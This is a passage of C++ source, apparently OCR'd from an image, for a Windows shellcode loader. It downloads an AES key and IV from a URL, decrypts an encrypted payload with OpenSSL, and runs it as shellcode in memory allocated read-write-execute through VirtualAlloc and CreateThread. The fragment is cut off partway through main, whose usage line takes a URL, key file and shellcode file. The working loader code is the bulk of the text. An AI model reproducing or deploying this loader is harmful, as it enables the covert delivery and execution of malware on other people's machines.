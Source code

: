 ```cpp
        curl_easy_cleanup(curl);
    }
    curl_global_cleanup();
}

void load_key_iv(const std::string& url) {
    std::string key_file_data;
    download_file(url, key_file_data);
    
    std::istringstream key_iv_stream(key_file_data);
    std::getline(key_iv_stream, aes_key);  // First line is AES key
    std::getline(key_iv_stream, aes_iv);   // Second line is IV
}

// AES Decrypt using OpenSSL
std::string aes_decrypt(const std::string& encrypted_data, const std::string& key, const std::string& iv) {
    EVP_CIPHER_CTX* ctx = EVP_CIPHER_CTX_new();
    unsigned char outbuf[1024];
    int outlen, tmplen;
    std::string decrypted;

    // Init AES
    EVP_DecryptInit_ex(ctx, EVP_aes_256_cbc(), NULL, (unsigned char*)key.c_str(), (unsigned char*)iv.c_str());

    // Decrypt the data
    if (!EVP_DecryptUpdate(ctx, outbuf, &outlen, (unsigned char*)encrypted_data.c_str(), encrypted_data.size())) {
        EVP_CIPHER_CTX_free(ctx);
        return {};
    }
    decrypted.append((char*)outbuf, outlen);

    // Finalize
    if (!EVP_DecryptFinal_ex(ctx, outbuf, &tmplen)) {
        EVP_CIPHER_CTX_free(ctx);
        return {};
    }
    decrypted.append((char*)outbuf, tmplen);
    EVP_CIPHER_CTX_free(ctx);

    return decrypted;
}

void execute_shellcode(unsigned char* shellcode, size_t len) {
    void* exec_mem = VirtualAlloc(0, len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlMoveMemory(exec_mem, shellcode, len);

    HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    WaitForSingleObject(th, INFINITE);
}

int main(int argc, char* argv[]) {
    bool use_embedded = true;
    
#ifndef USE_EMBEDDED
    if (argc < 4) {
        std::cerr << "Usage: " << argv[0] << " -u <url> -k <key_file> -f <shellcode_file>" << std::endl;
        return 1;
    }

```